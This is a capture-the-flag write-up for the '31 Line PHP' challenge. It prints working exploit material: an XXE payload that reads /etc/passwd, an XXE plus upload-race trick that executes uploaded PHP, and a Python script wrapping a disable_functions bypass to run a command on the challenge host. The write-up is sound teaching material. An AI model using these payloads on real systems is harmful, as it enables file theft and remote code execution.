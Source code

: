 # 31 Line PHP

## Description

Like the legendary ~~one-~~ 31- line php challenge

**`62.84.114.238/`**

_On the last step, you’ll need a recently published 0day._

## Solution

Here's the challenge source code:

```php
<?php
session_start();
if (!isset($_POST["data"])) {
    highlight_file(__FILE__);
    die();
}
if (!isset($_SESSION["id"])) {
    $_SESSION["id"] = md5(random_bytes(16));
}
$id = $_SESSION["id"];
echo "Welcome, $id\r\n";

if (!file_exists("/var/www/html/upload/" . $id)) {
    mkdir("/var/www/html/upload/" . $id, 0755, true);
}
$name = $_FILES["data"]["name"];
move_uploaded_file($_FILES["data"]["tmp_name"],"/var/www/html/upload/$id/$name");
if (PHP_VERSION_ID < 80000) {
    // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
    // disabled by default, so this function is no longer needed to protect against XXE attacks.
    $loader = libxml_disable_entity_loader(true);
}
$xmlfile = file_get_contents("/var/www/html/upload/$id/$name");
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT);
$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;
echo "You have logged in as user $user";
unlink("/var/www/html/upload/$id/$name");
?>
```

### XXE Injection

We can quite clearly see that this must have something to do with XML parsing. One part of the code stood out in particular:

```php
if (PHP_VERSION_ID < 80000) {
    // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
    // disabled by default, so this function is no longer needed to protect against XXE attacks.
    $loader = libxml_disable_entity_loader(true);
}
```

The comments seem reasonable. Does this mean that there is no XXE here?

It turns out that this part was inspired by a [WordPress bug](https://blog.sonarsource.com/wordpress-xxe-security-vulnerability) a while back this year. While the above justification is correct, the nuance lies in how `loadXML()` is called.

It turns out that the `LIBXML_NOENT` flag actually _enables_ entity substitution - the flag means that no entities will be left in the result, i.e. external entities will be fetched and substituted.

```php
$dom->loadXML($xmlfile, LIBXML_NOENT);
```

So, surprisingly, we _do_ have an XXE here. Here's an LFI payload:

```
------WebKitFormBoundaryO6d3yhN5GpxEyAKE
Content-Disposition: form-data; name="data"; filename="test.xml"
Content-Type: text/xml

<!DOCTYPE myDoc [ <!ENTITY myExternalEntity SYSTEM "file:///etc/passwd" > ]>
<creds>
    <user>&myExternalEntity;</user>
    <pass>mypass</pass>
</creds>
------WebKitFormBoundaryO6d3yhN5GpxEyAKE
Content-Disposition: form-data; name="data"

test
------WebKitFormBoundaryO6d3yhN5GpxEyAKE--
```

### PHP Code Injection

I started searching for flag files but had no luck. After asking the organizers, they confirmed that I must get an RCE somehow.

This got me looking back at the source code. Note that we have a remote file upload here - the uploaded file is at `/var/www/html/upload/$id/$name` and we have access to this file through the web server (the web root is `/var/www/html`). The only caveat is that the file is deleted as soon as the XML parsing is done.

This still allows us to request the file _while_ the XML parsing is being performed. If we upload a PHP file, we can request that file again within the XML and use `php://filter/` to reflect the output into the `<user>` tag.

```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/89e05a8b6e028eeda25a0845b9b3daaa/payload.php" >]>
<creds>
    <user>&xxe;</user>
    <pass></pass>
</creds>
    
<?php phpinfo(); ?>
```

Using the `phpinfo()` output, we can see the `disable_functions` configuration.

![](<../../.gitbook/assets/image (79).png>)

As we can see, all of the functions that can give us a shell command execution are disabled.

### disable_functions Bypass

The challenge hinted at a zero-day being needed for the last step.

A recent (published just 5 days ago) [PoC](https://github.com/mm0r1/exploits/tree/master/php-filter-bypass) allowed us to bypass `disable_functions` on all PHP versions.

This allowed us to get shell RCE and run the `/readflag` binary to read the flag.

```python
import requests
import re
import base64

FILENAME = 'payload.php'
TARGET = 'http://62.84.114.238'
COMMAND = '/readflag'

with open(FILENAME, 'w') as f:
    f.write("""
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/3354e780fbef91d0ebc5875d77aee578/{}" >]>
<creds>
    <user>&xxe;</user>
    <pass></pass>
</creds>
    """.format(FILENAME) + """
<?php
# PHP 7.0-8.0 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=54350
# 
# This exploit should work on all PHP 7.0-8.0 versions
# released as of 2021-10-06
#
# Author: https://github.com/mm0r1

pwn('{}');""".format(COMMAND) + r"""

... EXPLOIT HERE ...

?>
""")

r = requests.post(TARGET,
    files = {'data': (FILENAME, open(FILENAME, 'rb'))},
    data = {'data': 'test'},
    headers = {'Cookie': 'PHPSESSID=85ab80ed3e1f88a7827a75c5f9dc7c1f'}
)

print(r.text)

match = re.search('You have logged in as user (.*)', r.text)
print(match[1])
print(base64.b64decode(match[1]).decode())
```

The flag is `spbctf{XX3_2_rCe_w3Ll_D0n3}`\
